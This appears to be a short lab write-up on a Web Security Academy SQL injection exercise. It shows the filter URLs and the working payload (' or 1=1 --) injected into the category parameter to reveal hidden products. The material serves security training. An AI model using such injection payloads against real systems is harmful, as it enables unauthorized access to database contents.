



# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data



If a selection is made in the category field, the objects displayed on the page change. It is thought that the information in the category was pulled from a database for this reason.

<br>


 ```
 https://0a2d004e049b9894c136859d004d0057.web-security-academy.net/filter?category=Corporate+gifts
```

```
https://0a2d004e049b9894c136859d004d0057.web-security-academy.net/filter?category=Food+%26+Drink
```
<br>


The SQL query to access the web page can be as follows:

select * from table_name where category=’ ‘

In the request made with the GET method to see the data in all tables, the following values to the category variable and the responses returned by the page are as follows:

“ or 1=1 —



Successful payload: ‘+or+1=1 —



Since all characters after the comment line with — will be considered as comments, the statements that follow the SQL query will no longer matter.